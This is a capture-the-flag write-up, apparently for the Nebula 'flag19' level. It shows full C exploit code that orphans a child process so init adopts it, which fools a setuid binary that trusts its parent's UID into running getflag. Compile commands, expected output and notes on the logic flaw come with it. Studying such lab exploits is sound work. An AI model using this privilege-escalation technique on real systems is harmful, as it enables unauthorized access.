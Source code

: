 
---
### 🧬 Challenge Insight

> The binary `flag19` enforces access control by checking the **user ID of its parent process**. If the parent is **not root**, it refuses to proceed.
> 
> Our mission is to **alter the process hierarchy**, so that `flag19` runs under the **init process (PID 1)**, which has UID 0 — and bypasses the restriction.

**User:** `level19`  
**Binary:** `/home/flag19/flag19`  
**Goal:** Fool the binary into thinking its parent is privileged, and trigger `getflag`.

---

### 🔍 Background Concept

#### ⚙️ How Linux Handles Orphans

- Each process in Linux is attached to a parent process (by PID).
    
- When a parent dies, the child becomes an **orphan**.
    
- The **init process (PID 1)** automatically adopts all orphaned processes.
    
- Since **init runs as root**, this trick can be used to **simulate a root-owned parent**.
    

---

### 🧨 Attack Blueprint

We’ll create a two-stage process:

1. **Parent forks a child**, then exits immediately.
    
2. **Child sleeps briefly**, allowing itself to be adopted by `init`.
    
3. Once re-parented, the child invokes `/home/flag19/flag19`, which now **detects UID 0 as its parent** and grants access.
    

---

### 🛠️ Crafting the Exploit

```c
// orphan_bypass.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <err.h>

int main() {
    pid_t child = fork();

    if (child > 0) {
        // Step 1: Kill the parent quickly
        printf("[PARENT] PID: %d exiting...\n", getpid());
        exit(0);
    } else if (child == 0) {
        // Step 2: Orphaned child waits to be adopted by init
        printf("[CHILD] Orphaning in progress. PID: %d\n", getpid());
        sleep(3);

        // Step 3: Confirm we're now re-parented to PID 1
        printf("[CHILD] My current parent PID: %d\n", getppid());

        // Step 4: Attempt to launch flag19 under new parent
        char *args[] = {"/bin/sh", "-c", "/bin/getflag", NULL};
        execve("/home/flag19/flag19", args, NULL);

        // If exec fails
        err(1, "Failed to exec flag19");
    } else {
        perror("fork failed");
        exit(1);
    }

    return 0;
}
```

---

### ⚙️ Compile and Run

```bash
gcc orphan_bypass.c -o orphaner
./orphaner
```

⏳ Wait 3 seconds. If successful, the `flag19` binary will now think it’s being executed by **root's child**, due to PID 1 being its current parent.

---

### 🎯 Flag Retrieval

Once the conditions are met, you’ll see:

```bash
You have successfully executed getflag on a target account
```

No password, no prompt — just a clean privilege escalation via **process deception**.

---

### 📌 Important Observations

- The **UID of the parent** is being used as a **trust anchor** — a weak foundation.
    
- Simply re-parenting via orphaning **tricks the binary’s logic** without needing any actual root access.
    
- This is a **logic flaw** tied to **trusting runtime metadata**, which is mutable through normal OS behavior.
    

---

### 🧹 Cleanup

To avoid zombie processes:

```bash
ps aux | grep orphaner
kill -9 <zombie-pid>  # if needed
```

---

### 🧠 Key Learnings

- Linux allows orphaned processes to be **adopted by init**, creating opportunities for **process tree manipulation**.
    
- Privilege-sensitive binaries that depend on `getppid()` and `getuid()` without **hard guarantees** are vulnerable.
    
- Trusting **external conditions** like process hierarchy can lead to **security bypasses**.
    

---
